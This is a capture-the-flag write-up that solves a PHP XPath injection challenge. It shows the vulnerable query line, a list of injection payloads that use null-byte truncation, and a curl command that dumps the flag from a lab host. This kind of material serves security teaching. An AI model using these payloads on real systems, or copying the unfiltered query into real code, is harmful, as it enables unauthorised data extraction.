


# Portscan

Scanning the host with [nmap](../nmap.txt) reveals an http server on port `64234`.

There is a scary website with a form.


# Gitlab

There is a gitlab link with the user [Erstuujnszki](https://gitlab.com/Erstuujnszki), with some recent activity in the [blu](https://gitlab.com/ctf9353735/blu) repository ([blu.zip](workdir/blu.zip))



# Source code

The code is vulnerable to XPath injection. The user input is used in the query without filtering.

```php
$results = $xml->xpath("/users/user[name='{$_POST['name']}']/task");
```

# Exploit

Using crafted queries, the data printed can be controlled.

* `' or 1 and position()='1`
* `' or 1]\x00`
* `' or 1]/..//name\x00`
* `' or 1]/../..//name\x00`
* `' or 1]/../..//text()\x00`


The underlying xml structure and content can be slowly recovered with various queries or tools like `xcat`.

A more simpler method is just query for the flag format.

```bash
curl -s -X POST 'http://10.10.1.10:64234/index.php' --data-binary "input=$(printf %s "' or 1]/../..//*[text()[contains(.,'CQ24')]]"|jq -sRr @uri)%00"
```



# Flag
`CQ24{DonTHugMeIAmScared}`